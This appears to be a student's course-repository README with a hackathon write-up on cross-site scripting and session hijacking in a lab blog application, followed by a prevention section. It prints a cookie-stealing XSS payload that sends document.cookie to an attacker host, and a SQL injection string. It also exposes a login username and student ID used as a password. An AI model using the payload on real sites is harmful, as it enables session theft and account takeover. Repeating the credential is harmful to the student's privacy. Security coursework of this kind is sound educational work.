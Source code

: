 # Web Application Programming and Hacking

## Instructor: Dr. Phu Phung

## Student

**Name**: Mahitha Kalaga

**Email**: [kalagam1@udayton.edu](kalagam1@udayton.edu)

![Mahitha's headshot](../images/mahi.jpeg)

## Repository Information

Repository's URL: [https://github.com/kalagam1/waph-kalagam1.git](https://github.com/kalagam1/waph-kalagam1.git)

This is a private repository for Mahitha Kalaga to store all the code from the course. The organization of this repository is as follows.

### Labs

[Hands-on exercises in Lectures](labs)

- [Lab 0](labs/lab0): Development Environment Setup
- [Lab 1](labs/lab1): Foundations of the Web
- [Lab 2](labs/lab2): Front-end Web Development
- [Lab 3](labs/lab3): Secure Web Application Development in PHP/MySQL
- [Lab 4](labs/lab4): A Secure Login System with Session Authentication

### Hackathons

- [Hackathon 1](hackathon1): Cross-site Scripting Attacks and Defenses
- [Hackathon 2](hackathon2): SQL Injection Attacks
- [Hackathon 3](hackathon3): Session Hijacking Attacks and Defenses

### Individual Projects

- [Individual Project 1](https://github.com/kalagam1/kalagam1.github.io): Front-end Web Development with a Professional Profile Website and API Integration on github.io cloud service

## Report

## The Hackathon's overview

In Hackathon 3, I explored Cross-Site Scripting (XSS) and session hijacking vulnerabilities to understand how attackers can gain unauthorized access without credentials. I began by injecting a malicious JavaScript payload into the blog application's comment section, which, when clicked by a logged-in user, silently transmitted their session cookie to a remote server I controlled. By retrieving the stolen cookie from the server logs, I was able to hijack the victim's session by manually injecting the session ID into my browser, gaining access without logging in. To test further vulnerabilities, I attempted SQL injection on various input fields post-hijack, but found the system to be resilient—likely due to parameterized queries. This exercise demonstrated the critical importance of input sanitization, secure cookie attributes, and strong session management in protecting web applications.

Hackathon's URL: [Hackathon3](https://github.com/kalagam1/waph-kalagam1/tree/main/hackathon3)

Demo's URL: [Demo](https://github.com/kalagam1/waph-kalagam1/tree/main/hackathon3/kalagam1-waph-hackathon3.mp4)

## Task 1: The Attack

### Step 1: Attacker

To initiate the attack, I accessed the blog application, which allows users to post comments without any form of input validation or sanitization. Recognizing this vulnerability, I crafted a cross-site scripting (XSS) payload intended to capture the session cookie of a logged-in user. The injected payload looked like this:

<a onclick=window.location=http://192.168.56.102/?cookie=+document.cookie>click here</a> 

![level 0](../images/h31.jpeg)

This script, when clicked by an authenticated user, would send their session cookie to the attacker’s server. The comment was submitted and publicly displayed on the blog.

### Step 2: Victim

Acting as the victim, I proceeded to log into the blog application using the UD credentials; kalagam1 and the corresponding 9-digit student ID (101831115). Upon successful authentication, I navigated to the comment section where the attacker’s malicious payload had been posted.

![level 0](../images/h32.jpeg)

![level 0](../images/h33.jpeg)

![level 0](../images/h31.jpeg)

### Step 3: Victim

Upon encountering the injected comment, I interacted with the hyperlink under the assumption that it was legitimate. This action triggered the malicious JavaScript embedded within the link, which immediately executed and sent the session cookie associated with the authenticated session to the attacker’s server.

![level 0](../images/h31.jpeg)

![level 0](../images/h34.jpeg)

### Step 4: Attacker

On the attacker’s end, I had configured a listener to capture incoming HTTP requests. Once the victim interacted with the malicious link, the browser issued a request containing the session cookie to the attacker’s server. I verified the success of this action by inspecting the server logs, which revealed the session identifier (PHPSESSID). With this information, I was now equipped to impersonate the victim. To see the cookie information the terminal runs the following command:
Cat /var/log/apache2/access.log

![level 0](../images/h35.jpeg)

### Step 5: Attacker

To hijack the victim’s session, I opened the blog application in a new incognito browser session and did not log in. Instead, I opened the browser’s developer tools and manually added the stolen PHPSESSID cookie under the Application tab. After refreshing the page, the application treated me as the logged-in user, granting access without requiring authentication credentials. This demonstrated a complete session hijack using only the stolen cookie.

![bonus](../images/h36.jpeg)

![bonus](../images/h37.jpeg)

### Bonus: 

Following the successful session hijacking, I explored the application to assess whether it was also vulnerable to SQL injection. I tested the login and other input fields with common SQL injection payloads such as ' OR '1'='1, but the application rejected these inputs or returned appropriate error messages. This behavior suggests that the backend is likely using parameterized queries or has implemented input validation, rendering SQL injection attempts ineffective in this case.

![bonus](../images/h3bonus1.jpeg)

![bonus](../images/h3bonus2.jpeg)

## Task 2: Understanding and Prevention

#### Why the Attack Worked

This attack was possible due to two primary vulnerabilities. First, the blog application lacked proper input sanitization, allowing the injection of executable JavaScript into the comment section. This made it susceptible to cross-site scripting (XSS). Second, the application stored session cookies without setting security flags such as HttpOnly and Secure, making them accessible via JavaScript. The attacker was able to steal this session data and reuse it to bypass authentication completely.

#### How This Can Be Prevented

As a developer, there are several things I’d do differently to prevent this. First, I’d make sure all user inputs—especially in comment sections—are properly sanitized and encoded before being displayed on the site. That would stop most XSS attacks. I’d also set the session cookies to have the HttpOnly, Secure, and SameSite flags so they can’t be accessed through scripts or passed around between sites. Finally, I’d implement proper session expiration and maybe even rotate the session ID on login/logout to reduce the window of attack. These are all practices we’ve been following in our WAPH projects. 
